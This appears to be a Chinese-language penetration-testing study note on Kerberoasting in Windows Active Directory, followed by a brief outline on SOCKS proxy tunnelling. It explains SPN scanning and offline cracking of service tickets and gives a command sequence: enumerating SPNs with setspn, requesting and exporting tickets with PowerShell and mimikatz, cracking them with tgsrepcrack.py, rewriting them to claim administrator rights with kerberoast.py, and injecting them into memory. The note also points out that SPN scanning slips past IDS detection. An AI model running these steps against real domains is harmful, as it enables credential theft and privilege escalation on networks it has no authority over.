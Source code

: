 #### 案例二 横向渗透SPN服务-探针，请求，破解，重写（比较鸡肋）

> 黑客可以使用有效的域用户的身份验证票证（TGT）去请求去运行在服务器上的一个或多个目标服务的服务票证。DC在活动目录中查找SPN，并使用与SPN关联的服务账户加密票证，以便服务能够验证用户是否可以访问，请求的kerberos服务票证的加密类型是RC4_HMAC_MD5，这意味着服务账户的NTLM密码哈希用于加密服务票证，黑客将收到的TGS票据离线进行破解，即可得到目标服务账号的HASH，这个称之为Kerberoast攻击。如果我们有一个为域用户账户注册的任意SPN，那么该用户账户的明文密码的NTLM哈希值就将用于创建服务票证。这就是Kerberoasting攻击的关键
>
> SPN扫描也称为“扫描Kerberos服务实例名称”。在活动目录中发现服务的最佳方法就是SPN扫描，SPN扫描通过请求特定SPN类型的服务主体名称来查找服务，与网络端口扫描相比，SPN扫描的主要特点是不需要通过连接网络中的每个IP地址来检查服务端口（不会因为触发内网中的IPS、IDS等设备的规则而产生大量的警告日志），因为SPN查询是Kerberos票据行为的一部分，所以检测难度很大
>
> 由于SPN扫描是基于LDAP协议向域控制器进行查询的，所以，攻击者只需要获得一个普通的域用户权限，就可以进行SPN扫描

##### 步骤

```powershell
1.探针
setspn -q */*  # 扫描全部，探测服务，端口  # 普通域用户权限都可以
setspn -q */* | findstr "MSSQL"
2.请求
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "xxxxx"  # 刚才得到的服务MSSQL
或
mimikatz.exe
kerberos::ask /target:xxxx
# 导出
mimikatz.exe "kerberos::list /export"
3.破解
python tgsrepcrack.py password.txt xxxx.kirbi
python3 ./tgsrepcrack.py .\password.txt .\1-40a00000-jerry@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi
4.重写
python kerberoast.py -p Password123 -r xxxx.kirbi -w PENTESTLAB.kirbi -u 500 # -u 管理员500
python kerberoast.py -p Password123 -r xxxx.kirbi -w PENTESTLAB.kirbi -g 512 # -g 组 管理员组512
mimkatz.exe 
kerberos::ptt xxxx.kirbi  # 将生成的票据注入内存
```

#### 案例三 CS一把梭哈(Cobalt Strike)



## 内网漫游Socks代理隧道技术

### 代理

解决

* 内网有外网
* 内网有过滤
* 内网无外网

方向

* 正向
* 反向
